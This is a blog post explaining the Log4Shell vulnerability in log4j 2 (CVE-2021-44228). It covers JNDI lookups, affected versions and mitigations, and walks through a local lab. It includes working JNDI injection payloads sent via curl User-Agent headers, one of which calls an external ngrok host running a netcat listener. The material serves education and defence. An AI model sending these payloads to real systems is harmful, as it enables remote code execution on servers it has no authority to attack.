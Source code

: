 ```yaml
---
title: 'Play with log4shell; just for fun.'
date: 2021-12-12
author: 'John Stilia'
description: 'Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package'
categories: [Java, RCE, 0-day]
tags: [Java, 0-day, RCE, log4j, CVE-2021-44228, CVE]

resources:
  - name: featured-image
    src: log4jimage.jpg
  - name: featured-image-preview
    src: log4jimage.jpg

draft: false
lightgallery: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  auto: false
comment:
  enable: true
---
```


Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package

<!--more-->

{{< admonition danger>}}
For educational purposes only. Please do not use it for illegal purposes.

I am not a Java Developer, and I am not responsible for any damage caused by this code.

This is a proof of concept.
{{< /admonition >}}

A 0-day exploit in the popular Java logging library log4j (version 2) resulted in Remote Code Execution (RCE) by logging a particular string.
The impact of this vulnerability is quite severe. It is called "Log4Shell" for short. Considering how widespread this library is, this impact can result in complete server control.

The initial mention of the vulnerability was made by [@P0rZ9](https://twitter.com/P0rZ9) on [Twitter](https://twitter.com/P0rZ9/status/1468949890571337731).

# What is JNDI?

The Java Naming and Directory Interface is a Java API for a directory service that allows Java software clients to discover and look up data and resources via a name.
Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation

# ${jndi:ldap://example.com/a}

Log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) in the form `${prefix:name}` where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) where name should be evaluated.
For example, `${java:version}` is the current running version of Java.
LOG4J2-313 added a jndi Lookup as follows: `“The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”`
With a `:` present in the key, as in `${jndi:ldap://example.com/a}` there’s no prefix and the LDAP server is queried for the object. And these Lookups can be used in both the configuration of Log4j as well as when lines are logged.

# Who is Impacted

Anybody using Apache Struts is likely vulnerable. In particular, any Log4J version prior to v2.15.0 is affected by this vulnerability.
In addition, the version 1 branch of Log4J is vulnerable to other RCE attacks and should be updated.

Many companies have been impacted, including big names such as Apple, Amazon, Twitter, and Tesla.
Here is a comprehensive list of impacted companies as of the time of the vulnerability release. [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface#the-list)

## Affected Apache log4j2 versions​

2.0 <= Apache log4j <= 2.14.1

## Permanent Mitigation​

Version 2.15.0 of log4j has been released without the vulnerability. log4j-core.jar is available on Maven Central here, with [release notes] and [log4j security announcements](https://logging.apache.org/log4j/2.x/security.html).

## Temporary Mitigation

As per the discussion at [HackerNews](https://news.ycombinator.com/item?id=29507263) there are few ways to mitigate this vulnerability temporarily.
{{< admonition note>}}
If you are using a version older than 2.10.0 and cannot upgrade,
your mitigation choices are:

- Modify every logging pattern layout to say %m{nolookups}
  instead of %m in your logging config files,
  see details at <https://issues.apache.org/jira/browse/LOG4J2-2109>

or

- Substitute a non-vulnerable or empty implementation of the
  class org.apache.logging.log4j.core.lookup.JndiLookup,
  in a way that your classloader uses your replacement instead
  of the vulnerable version of the class.
  Refer to your application's or stack's classloading
  documentation to understand this behaviour.
  {{< /admonition >}}

# Digging deeper

The Java Naming and Directory Interface (JNDI) is a Java API for a directory service that allows you to interface with LDAP or DNS to look up data and resources. Unfortunately, one of the data types that can be returned is a URI pointing to a Java class — and if you load an untrusted Java class, then you’re unwittingly executing someone else’s code.

Even logging a message like the following can trigger a remote LDAP call, causing a criminal Java class to be instantiated.

`log.info("this is a security nightmare! {}", userInput);`

A real-world example of this same issue would be:

`log.info("Request User-Agent: {}", userAgent);`

A curl request to a remote server would look like this:

`curl -H 'User-Agent: ${jndi:ldap://ee32-de2f-71a.ngrok.io:8888/a}' https://vurnable-host.com/`

Where `ee32-de2f-71a.ngrok.io:8888` could be a netcat listener running.

As seen on [www.fastly.com](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j/)
{{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-2.png" title="How the attack works" >}}

# Fun time, exploit all the things

- Head to [leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)
- After cloning the repo, run the following command:

  `docker build -t log4jpwn .` # This will build a docker image from the current directory.

- Run the docker image:

  `docker run --rm -p5555:8080 log4jpwn`

- start a netcat listener on port 8888

  `nc -lnvp 8888`

- Get your docker interface host ip address:

  `ip a s docker0 | grep inet | awk '{print $2}' | cut -d/ -f1`
  {{< admonition tip >}}
  That would work in Linux and macOS, but not windows.
  Replace the `docker0` with your docker interface name.
  {{< /admonition >}}

- Exploit the _log4j_ vulnerability.
  `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:5555`
  We can clearly see the log4j library attempted a connection on the netcat listener.
  {{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-1.png" >}}

Here we can see the vulnerable library did a callout to the netcat listener. This could be used for all short of attacks.
For more info, look at:

- <https://github.com/xiajun325/apache-log4j-rce-poc>
- <https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w>

# References

- <https://www.lunasec.io/docs/blog/log4j-zero-day/>
- <https://github.com/leonjza/log4jpwn>
- <https://github.com/YfryTchsGD/Log4jAttackSurface>
- <https://logging.apache.org/log4j/2.x/security.html>
- <https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j>
- <https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w>
- <https://github.com/xiajun325/apache-log4j-rce-poc.git>
- <https://github.com/mbechler/marshalsec.git>
- <https://logging.apache.org/log4j/2.x/manual/lookups.html>
- <https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution>
- <https://issues.apache.org/jira/browse/LOG4J2-313>
- <https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/>
